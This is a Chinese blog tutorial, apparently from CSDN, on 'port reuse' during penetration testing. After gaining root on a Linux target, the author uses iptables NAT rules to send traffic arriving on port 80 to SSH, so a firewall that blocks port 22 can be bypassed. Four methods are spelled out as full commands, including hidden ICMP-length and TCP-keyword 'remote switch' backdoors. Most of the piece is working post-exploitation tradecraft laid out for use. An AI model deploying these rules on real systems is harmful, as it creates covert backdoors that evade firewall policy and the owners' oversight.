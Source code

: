 **目录**

[iptables做端口复用](#t0 "iptables做端口复用")

[方案一：(根据源地址做端口复用)](#t1 "方案一：(根据源地址做端口复用)")

[方案二：(根据源地址源端口做端口复用)](#t2 "方案二：(根据源地址源端口做端口复用)")

[方案三：(利用ICMP协议做遥控开关)](#t3 "方案三：(利用ICMP协议做遥控开关)")

[方案四：(利用TCP协议做遥控开关)](#t4 "方案四：(利用TCP协议做遥控开关)")

* * *

iptables做端口复用
-------------

在做[渗透测试](https://so.csdn.net/so/search?q=%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95&spm=1001.2101.3001.7020)的过程中，我们经常会遇到下面这种问题。

目标主机是Linux系统，目标主机防火墙有严格的限制，只允许80端口的流量进入。我们拿到了目标主机的Webshell(root权限)并且拿到了[SSH](https://so.csdn.net/so/search?q=SSH&spm=1001.2101.3001.7020)的账号密码。但是目标主机22端口只对内开放，所以必须得利用80端口做端口复用连接。

现在我们的思路就是利用Linux的[iptables](https://so.csdn.net/so/search?q=iptables&spm=1001.2101.3001.7020)防火墙的nat表的PREROUTING 链做端口复用，因为nat 表的 PREROUTING 链会在路由决策之前被处理。关于iptables：[Linux中的防火墙(Netfilter、Iptables、Firewalld)](https://xie1997.blog.csdn.net/article/details/82662026 "Linux中的防火墙(Netfilter、Iptables、Firewalld)")

![](https://img-blog.csdn.net/20180912185612240?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)

**环境拓扑图如下：**

![](https://img-blog.csdnimg.cn/20200503100107718.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

![](https://img-blog.csdnimg.cn/20200503095519669.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

### 方案一：(根据源地址做端口复用)

以下这条命令的作用是将来自192.168.10.13的访问80端口的流量都重定向到22端口。

```
iptables -t nat -A PREROUTING -p tcp -s 192.168.10.13 --dport 80 -j REDIRECT --to-port 22
```


![](https://img-blog.csdnimg.cn/2020050311413523.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

连接目标主机的80端口，会被重定向到22端口

![](https://img-blog.csdnimg.cn/20200503095620127.png)

但是这样做有一个问题就是，我们访问目标主机80端口的流量都会被转给22端口。如果我们不用访问该HTTP服务的话，这是一个好的办法。实战中，我们一般是用VPS连接不用访问HTTP服务，所以在实战中该方法用的比较多。

![](https://img-blog.csdnimg.cn/20200503105150904.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

### 方案二：(根据源地址源端口做端口复用)

以下的命令是根据源地址源端口做端口复用，也就是只有来自192.168.10.13主机的33333端口的访问80端口的流量会被转给22端口。

```
iptables -t nat -A PREROUTING -p tcp -s 192.168.10.13 --sport 33333 --dport 80 -j REDIRECT --to-port 22
```


![](https://img-blog.csdnimg.cn/20200503114357831.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

然后我们本机先用socat将本地44444端口的流量以源端口33333访问192.168.10.129的80，然后我们SSH本地的44444端口即可。

```
nohup socat tcp-listen:44444,fork,reuseaddr tcp:192.168.10.129:80,sourceport=33333,reuseaddr &      
ssh -p 44444 root@127.0.0.1
```


![](https://img-blog.csdnimg.cn/20200503113706267.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

但是这样做有一个问题就是不支持多连接 如果想创建两个 SSH 连接就会出错，因为本地的 33333 端口已经被第一个 SSH 连接占用了。

### 方案三：(利用ICMP协议做遥控开关)

利用 ICMP 做遥控开关。缺点在于如果目标在内网，你是无法直接 ping 到它的。

```
iptables -t nat -N LETMEIN             #创建端口复用链      
iptables -t nat -A LETMEIN -p tcp -j REDIRECT --to-port 22   #创建端口复用规则，将流量转发至 22 端口      
iptables -t nat -A PREROUTING -p icmp --icmp-type 8 -m length --length 1139 -m recent --set --name letmein --rsource -j ACCEPT  #开启开关，如果接收到一个长为 1139 的 ICMP 包，则将来源 IP 添加到加为letmein的列表中      
iptables -t nat -A PREROUTING -p icmp --icmp-type 8 -m length --length 1140 -m recent --name letmein --remove -j ACCEPT          #关闭开关，如果接收到一个长为 1140 的 ICMP 包，则将来源 IP 从 letmein 列表中去掉      
iptables -t nat -A PREROUTING -p tcp --dport 80 --syn -m recent --rcheck --seconds 3600 --name letmein --rsource -j LETMEIN    #如果发现 SYN 包的来源 IP 处于 letmein 列表中，将跳转到 LETMEIN 链进行处理，有效时间为 3600 秒
```


![](https://img-blog.csdnimg.cn/20200503110912616.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

```
开启复用      
ping -c 1 -s 1111 192.168.10.129        #向目标发送一个长度为 1111 的 ICMP 数据包（加上包头28，总长度实际为1139）       
关闭复用      
ping -c 1 -s 1112 192.168.10.129        #向目标发送一个长度为 1112 的 ICMP 数据包（加上包头 28，总长度实际为 1140）
```


![](https://img-blog.csdnimg.cn/20200503111104838.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

### 方案四：(利用TCP协议做遥控开关)

利用 tcp 数据包中的关键字做遥控开关，不怕目标在内网。

```
iptables -t nat -N LETMEIN       #创建端口复用链      
iptables -t nat -A LETMEIN -p tcp -j REDIRECT --to-port 22  #创建端口复用规则，将流量转发至 22 端口      
iptables -A INPUT -p tcp -m string --string 'threathuntercoming' --algo bm -m recent --set --name letmein --rsource -j ACCEPT   #开启开关，如果接收到一个含有threathuntercoming的TCP包，则将来源 IP 添加到加为letmein的列表中      
iptables -A INPUT -p tcp -m string --string 'threathunterleaving' --algo bm -m recent --name letmein --remove -j ACCEPT      #关闭开关，如果接收到一个含有threathunterleaving的TCP包，则将来源 IP 从letmein的列表中移除      
iptables -t nat -A PREROUTING -p tcp --dport 80 --syn -m recent --rcheck --seconds 3600 --name letmein --rsource -j LETMEIN    #如果发现 SYN 包的来源 IP 处于 letmein 列表中，将跳转到 LETMEIN 链进行处理，有效时间为 3600 秒
```


![](https://img-blog.csdnimg.cn/20200503113018237.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

```
开启复用，开启后本机到目标 80 端口的流量将转发至目标的 SSH      
echo threathuntercoming | socat - tcp:192.168.10.129:80       
关闭复用，关闭后，80 恢复正常：      
echo threathunterleaving | socat - tcp:192.168.10.129:80
```


![](https://img-blog.csdnimg.cn/20200503112935839.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

 如果想跟我一起讨论的话，就快加入我的知识星球吧。星球里有一千多位同样爱好安全技术的小伙伴一起交流！[知识星球 | 深度连接铁杆粉丝，运营高品质社群，知识变现的工具](https://wx.zsxq.com/dweb2/index/group/88514121251242 "知识星球 | 深度连接铁杆粉丝，运营高品质社群，知识变现的工具")

![](https://img-blog.csdnimg.cn/1219ed79e9ed449d85d27b732cda5ea6.jpg)

参考文章：[远程遥控 IPTables 进行端口复用](https://blog.csdn.net/weixin_43639741/article/details/89363461 "远程遥控 IPTables 进行端口复用")

文章知识点与官方知识档案匹配，可进一步学习相关知识

[CS入门技能树](https://edu.csdn.net/skill/gml/gml-1c31834f07b04bcc9c5dff5baaa6680c)[Linux入门](https://edu.csdn.net/skill/gml/gml-1c31834f07b04bcc9c5dff5baaa6680c)[初识Linux](https://edu.csdn.net/skill/gml/gml-1c31834f07b04bcc9c5dff5baaa6680c)10997 人正在系统学习中